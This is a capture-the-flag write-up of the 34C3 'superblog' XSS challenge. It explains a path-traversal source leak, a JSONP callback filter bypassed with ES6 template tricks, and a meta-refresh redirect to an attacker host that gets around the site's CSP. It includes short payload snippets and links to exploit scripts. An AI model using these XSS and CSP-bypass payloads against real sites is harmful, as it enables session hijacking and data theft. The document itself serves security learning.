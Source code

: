 This is a classic XSS challenge. You can signup, login, publish your post, feed your post and contact admin to let him visit your post.

Flag will show when admin access /flag1 and /flag2, the different between this is that flag2 need calculate the captcha and submit a form to get flag.

This site use strict CSP as below

```
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: no-sniff
Content-Security-Policy: default-src 'none'; base-uri 'none'; frame-ancestors 'none'; connect-src 'self'; img-src 'self'; style-src 'self' https://fonts.googleapis.com/; font-src 'self' https://fonts.gstatic.com/s/materialicons/; form-action 'self'; script-src 'self';
Vary: Cookie
X-Frame-Options: DENY
Referrer-Policy: no-referrer
```

At first, we can get the source code by visit ``http://35.197.245.102/static../views.py``, and we can notice that there has an callback in feed with following code:

```python
@require_safe
def feed(req):
    posts = get_user_posts(req.user)
    posts_json = json.dumps([
        dict(author=p.author.username, title=p.title, content=p.content)
        for p in posts])
    type_ = req.GET.get('type')
    if type_ == 'json':
        resp = HttpResponse(posts_json)
        resp['Content-Type'] = 'application/json; charset=utf-8'
    elif type_ == 'jsonp':
        callback = req.GET.get('cb')
        bad = r'''[\]\\()\s"'\-*/%<>~|&^!?:;=*%0-9[]+'''
        if not callback.strip() or re.search(bad, callback):
            raise PermissionDenied
        resp = HttpResponse('%s(%s)' % (callback, posts_json))
        resp['Content-Type'] = 'text/javascript; charset=utf-8'
    return resp
``` 

Apart from this, even you don't get source code, because this site set ``DEBUG=True``, you can also get this code by visit ``http://35.197.245.102/feed`` which will trigger an UnboundLocalError.

Notice with that regexp, we can still use ``\`{}+``, so maybe use ES6 template is a good idea.

Therefore, we can execute some javascript code by cb, for example, ``<script src="/feed?type=jsonp&cb=alert`1`"></script>``.

Another challenge is how to bypass CSP, after try many times, we found ``<meta http-equiv="refresh" content="0;url='http://you.xss.com'`` can bypass.

So our idea is get flag by js code, and use csp bypass to navigate to our site. Complete exploit is [here](https://github.com/LyleMi/CTF/blob/master/2017/34C3/superblog/blog1.py). With this script, we can get flag:

```
,Here is your flag:    34C3_so_y0u_w3nt_4nd_learned_SOME_javascript_g00d_f0r_y0u,
```

In flag2, we need more techniques because here need post an form. So we can use ``Number.call`${atob`%s`}` `` and ``${String.fromCharCode.call`%s`}`` to bypass regexp's limition.

Complete exploit is [here](https://github.com/LyleMi/CTF/blob/master/2017/34C3/superblog/blog2.py). With this script, we can get flag:

```
/,34C3_h3ncef0rth_peopl3_sh4ll_refer_t0_y0u_only_4s_th3_ES6+DOM_guru,
```

Learn from [niklasb's gist](https://gist.github.com/niklasb/b831c726ffc4ee0a97ae2c66bb4e1169), thanks a lot.